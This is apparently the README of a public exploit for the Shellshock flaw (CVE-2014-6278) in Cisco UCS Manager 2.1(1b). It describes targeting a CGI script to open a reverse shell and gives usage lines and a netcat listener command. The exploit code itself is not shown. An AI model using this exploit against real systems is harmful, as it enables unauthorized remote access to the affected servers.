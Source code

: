 Cisco UCS Manager 2.1(1b) Shellshock Exploit
CVE-2014-6278
Confirmed on version 2.1(1b), but more are likely vulnerable.
Cisco's advisory: https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20140926-bash
Exploit generates a reverse shell to a nc listener.
Exploit Author: @thatchriseckert

Exploit goes after a specific cgi script in Cisco UCS manager to create a reverse shell back to the ip/port specified.

Also posted on edb:  https://www.exploit-db.com/exploits/39568/

Usage -

[*] Usage: <Victim IP> <Attacking Host> <Reverse Shell Port>
[*] Example: shellshock.py 127.0.0.1 127.0.0.1 4444
[*] Listener: nc -lvp <port>



